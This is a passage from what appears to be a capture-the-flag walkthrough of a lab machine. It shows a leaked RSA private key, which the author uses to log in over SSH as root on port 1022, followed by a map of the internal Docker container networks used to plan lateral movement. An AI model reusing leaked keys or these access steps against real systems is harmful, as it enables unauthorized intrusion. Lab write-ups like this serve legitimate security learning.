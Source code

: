 ```
WlzQp5Cg6YBtQoICugPSPjjRpu3GK6hI/sG9SGzGJVkgS4QIGUN1g3cP0AIFK08c
41xJOikN+oNInsb2RJ3zSHCsQgERHgMdfGZVQNYcKQz0lO+8U0lEEe1zAoGBAPTY
EWZlh+OMxGlLo4Um89cuUUutPbEaDuvcd5R85H9Ihag6DS5N3mhEjZE/XS27y7wS
3Q4ilYh8Twk6m4REMHeYwz4n0QZ8NH9n6TVxReDsgrBj2nMPVOQaji2xn4L7WYaJ
KImQ+AR9ykV2IlZ42LoyaIntX7IsRC2O/LbkJm3bAoGAFvFZ1vmBSAS29tKWlJH1
0MB4F/a43EYW9ZaQP3qfIzUtFeMj7xzGQzbwTgmbvYw3R0mgUcDS0rKoF3q7d7ZP
ILBy7RaRSLHcr8ddJfyLYkoallSKQcdMIJi7qAoSDeyMK209i3cj3sCTsy0wIvCI
6XpTUi92vit7du0eWcrOJ2kCgYAjrLvUTKThHeicYv3/b66FwuTrfuGHRYG5EhWG
WDA+74Ux/ste3M+0J5DtAeuEt2E3FRSKc7WP/nTRpm10dy8MrgB8tPZ62GwZyD0t
oUSKQkvEgbgZnblDxy7CL6hLQG5J8QAsEyhgFyf6uPzF1rPVZXTf6+tOna6NaNEf
oNyMkwKBgQCCCVKHRFC7na/8qMwuHEb6uRfsQV81pna5mLi55PV6RHxnoZ2wOdTA
jFhkdTVmzkkP62Yxd+DZ8RN+jOEs+cigpPjlhjeFJ+iN7mCZoA7UW/NeAR1GbjOe
BJBoz1pQBtLPQSGPaw+x7rHwgRMAj/LMLTI46fMFAWXB2AzaHHDNPg==
-----END RSA PRIVATE KEY-----
```

These look like SSH keys, so we try this on port 22 and 1022.  Port 1022 gives us access with username root.
```
root@kali:/tmp# ssh root@10.10.10.65 -p 1022 -i id_rsa
Last login: Sun Apr 22 17:05:28 2018 from 10.10.14.18
root@ezra:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Container 2: bastion-live
----------------------------

Not much stands out but lets have a look at the `make_networks.sh` file within the `/containers` folder again:
```bash
#!/bin/bash

# Create isolated network for building containers. No internet access
docker network create -d bridge --subnet=172.24.0.0/24 --gateway=172.24.0.1 --ip-range=172.24.0.0/24 \
 -o com.docker.network.bridge.enable_ip_masquerade=false \
  arieka-test-net

# Crate network for live containers. Internet access
docker network create -d bridge --subnet=172.23.0.0/24 --gateway=172.23.0.1 --ip-range=172.23.0.0/24 \
 arieka-live-net
```

Here I've mapped each of the containers to their IP's on each network and 

- Live Network
     * 172.23.0.11 (convert-live)
          - 8080/tcp
     * 172.23.0.252 (waf-live)
          - 443/tcp
     * 172.23.0.253 (bastion-live)
          - 22/tcp
- Test Network
     * 172.24.0.2 (blog-test)
          - 80/tcp
     * 172.24.0.252 (waf-live)
         - 443/tcp
     * 172.24.0.253 (bastion-live)
         - 22/tcp
